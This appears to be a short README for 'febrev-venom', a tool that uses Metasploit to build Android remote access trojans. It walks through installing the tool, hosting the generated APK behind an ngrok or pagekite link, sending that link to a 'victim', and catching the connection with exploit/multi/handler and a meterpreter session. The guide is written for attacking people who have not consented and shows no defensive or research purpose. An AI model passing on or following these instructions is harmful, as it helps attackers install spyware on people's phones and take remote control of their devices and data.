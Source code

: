 # febrev-venom
FEBREV venom is a tool to create android RATs through metasploit and send it to the victim via a link url
*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   **come into the febrev-venom directory 
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk> or pagekite link + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
